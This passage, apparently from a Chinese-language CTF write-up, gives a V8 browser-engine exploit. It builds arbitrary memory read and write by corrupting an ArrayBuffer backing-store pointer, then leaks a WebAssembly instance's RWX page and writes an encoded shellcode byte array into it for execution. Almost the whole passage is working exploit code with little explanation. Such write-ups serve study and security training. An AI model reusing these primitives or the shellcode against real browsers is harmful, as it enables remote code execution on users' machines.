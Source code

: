 然后通过修改`ab`的`backstore指针`来`任意地址读写`

```
let backstore_ptr_idx = arr.indexOf(i2f(8n)) + 1; 
function arb_read(addr)
`{`
    arr[backstore_ptr_idx] = i2f(addr);
    let dv = new DataView(ab); 
    return f2i(dv.getFloat64(0,true)) 
`}`

function arb_write(addr,data)
`{`
    arr[backstore_ptr_idx] = i2f(addr);
    let ua = new Uint8Array(ab); 
    ua.set(data);
`}`
```

最后`WASM`一把梭即可

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, `{``}`);
var f = wasmInstance.exports.main;
var wasm_instance_addr = addressOf(wasmInstance) - 1n;
console.log("[+]leak wasm instance addr: " + hex(wasm_instance_addr));
var rwx_page_addr = arb_read(wasm_instance_addr + 0x108n);
console.log("[+]leak rwx_page_addr: " + hex(rwx_page_addr));

const sc = [72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
for(let i = 0; i &lt; sc.length / 8; i++ )`{`
    arb_write(rwx_page_addr + BigInt(i) * 8n ,sc.slice(i * 8,(i + 1) * 8));
`}`

f();
```

结果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ecca77b3a115d209.png)


